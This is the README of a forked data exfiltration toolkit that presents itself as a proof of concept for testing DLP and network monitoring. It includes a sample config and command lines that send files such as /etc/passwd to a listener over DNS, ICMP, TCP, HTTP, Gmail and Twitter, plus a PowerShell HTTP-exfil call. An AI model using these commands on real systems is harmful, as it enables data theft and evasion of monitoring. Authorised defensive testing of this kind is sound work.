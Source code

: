 DET (extensible) Data Exfiltration Toolkit
=======

DET (is provided AS IS), is a proof of concept to perform Data Exfiltration using either single or multiple channel(s) at the same time.  

**This is a Proof of Concept aimed at identifying possible DLP failures. This should never be used to exfiltrate sensitive/live data (say on an assessment)**

The idea was to create a generic toolkit to plug any kind of protocol/service to test implmented Network Monitoring and Data Leakage Prevention (DLP) solutions configuration, against different data exfiltration techniques.

This repo is forked from https://github.com/sensepost/DET and has been modified to meet my needs. Feel free to fork and make a pull request if you want to help add features.

# Example usage (ICMP plugin)

## Server-side:

```python det.py -p tcp -c config-sample.json -L```

## Client-side:

```python det.py -c config-sample.json -p tcp -f requirements.txt```


# Installation

Clone the repo:

```bash
git clone https://github.com/dustinaevans/DET
```

Then:

```bash
pip install -r requirements.txt --user
```

# Configuration

In order to use DET, you will need to configure it and add your proper settings (eg. SMTP/IMAP, AES256 encryption
passphrase and so on). A configuration example file has been provided and is called: ```config-sample.json```

```json
{
    "plugins": {
        "http": {
            "target": "192.168.1.101",
            "port": 8080
        },
        "google_docs": {
            "target": "192.168.1.101",
            "port": 8080,
        },
        "dns": {
            "key": "google.com",
            "target": "192.168.1.101",
            "port": 53
        },
        "gmail": {
            "username": "dataexfil@gmail.com",
            "password": "ReallyStrongPassword",
            "server": "smtp.gmail.com",
            "port": 587
        },
        "tcp": {
            "target": "192.168.1.101",
            "port": 6969
        },
        "udp": {
            "target": "192.168.1.101",
            "port": 6969
        },
        "twitter": {
            "username": "PaulWebSec",
            "CONSUMER_TOKEN": "XXXXXXXXX",
            "CONSUMER_SECRET": "XXXXXXXXX",
            "ACCESS_TOKEN": "XXXXXXXXX",
            "ACCESS_TOKEN_SECRET": "XXXXXXXXX"
        },
        "icmp": {
            "target": "192.168.1.101"
        }
    },
    "AES_KEY": "THISISACRAZYKEY",
    "sleep_time": 10
}
```

# Usage

## Help usage

```bash
python det.py -h
usage: det.py [-h] [-c CONFIG] [-f FILE] [-d FOLDER] [-p PLUGIN] [-e EXCLUDE]
              [-L]

Data Exfiltration Toolkit (SensePost)

optional arguments:
  -h, --help  show this help message and exit
  -c CONFIG   Configuration file (eg. '-c ./config-sample.json')
  -f FILE     File to exfiltrate (eg. '-f /etc/passwd')
  -d FOLDER   Folder to exfiltrate (eg. '-d /etc/')
  -p PLUGIN   Plugins to use (eg. '-p dns,twitter')
  -e EXCLUDE  Plugins to exclude (eg. '-e gmail,icmp')
  -L          Server mode
```

## Server-side:

To load every plugin:

```bash
python det.py -L -c ./config.json
```

To load *only* twitter and gmail modules:

```bash
python det.py -L -c ./config.json -p twitter,gmail
```

To load every plugin and exclude DNS:

```bash
python det.py -L -c ./config.json -e dns
```

## Client-side:

To load every plugin:

```bash
python det.py -c ./config.json -f /etc/passwd
```

To load *only* twitter and gmail modules:

```bash
python det.py -c ./config.json -p twitter,gmail -f /etc/passwd
```

To load every plugin and exclude DNS:

```bash
python det.py -c ./config.json -e dns -f /etc/passwd
```
And in PowerShell (HTTP module):

```powershell
PS C:\Users\user01\Desktop>
PS C:\Users\user01\Desktop> . .\http_exfil.ps1
PS C:\Users\user01\Desktop> HTTP-exfil 'C:\path\to\file.exe'
```

# Modules

So far, DET supports multiple protocols, listed here:

- [X] HTTP(S)
- [X] ICMP
- [X] DNS
- [X] SMTP/IMAP (eg. Gmail)
- [X] Raw TCP
- [X] PowerShell implementation (HTTP, DNS, ICMP, SMTP (used with Gmail))

And other "services":

- [X] Google Docs (Unauthenticated)
- [X] Twitter (Direct Messages)

# Experimental modules

So far, I am busy implementing new modules which are almost ready to ship, including:

- [ ] Skype (95% done)
- [ ] Tor (80% done)
- [ ] Github (30/40% done)

# Roadmap

- [X] Add proper encryption (eg. AES-256) Thanks to [ryanohoro](https://github.com/ryanohoro)
- [X] Compression (extremely important!) Thanks to [chokepoint](https://github.com/chokepoint)
- [ ] Proper data obfuscation and integrating [Cloakify Toolset Toolset](https://github.com/trycatchhcf/cloakify)
- [ ] FTP, FlickR [LSB Steganography](https://github.com/RobinDavid/LSB-Steganography) and Youtube modules

# References

Some pretty cool references/credits to people I got inspired by with their project:

- [https://github.com/nullbind/Powershellery/](Powershellery) from Nullbind.
- [https://github.com/ytisf/PyExfil](PyExfil), truely awesome.
- [https://github.com/m57/dnsteal](dnsteal) from m57.
- [https://github.com/3nc0d3r/NaishoDeNusumu](NaishoDeNusumu) from 3nc0d3r.
- [https://github.com/glennzw/exphil](Exphil) from Glenn Wilkinson.
- WebExfile from Saif El-Sherei

# Contact/Contributing

You can reach me on Twitter [@PaulWebSec](https://twitter.com/PaulWebSec).
Feel free if you want to contribute, clone, fork, submit your PR and so on.

# License

DET is licensed under a [MIT License](https://opensource.org/licenses/MIT).
Permissions beyond the scope of this license may be available at [info@sensepost.com](info@sensepost.com)

